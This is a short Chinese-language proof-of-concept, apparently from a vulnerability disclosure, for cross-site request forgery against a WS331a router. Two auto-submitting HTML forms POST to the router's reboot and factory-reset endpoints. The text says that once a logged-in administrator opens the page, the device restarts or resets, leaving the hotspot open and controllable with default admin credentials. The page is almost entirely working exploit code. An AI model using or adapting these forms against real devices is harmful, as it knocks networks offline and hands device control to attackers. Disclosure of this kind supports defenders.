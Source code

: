 POC
---

當管理員登陸後，打開如下poc頁面，WS331a設備將重啟。

    <form action="http://192.168.3.1/api/service/reboot.cgi" method="post">
    </form>
    <script> document.forms[0].submit(); </script>

當管理員登陸後，打開如下poc頁面，WS331a設備將恢復初始化配置。設備自動重啟後不需要密碼即可連接熱點，並使用amdin/admin對設備進行管理控制。

    <form action="http://192.168.3.1/api/service/restoredefcfg.cgi" method="post">
    </form>
    <script> document.forms[0].submit(); </script>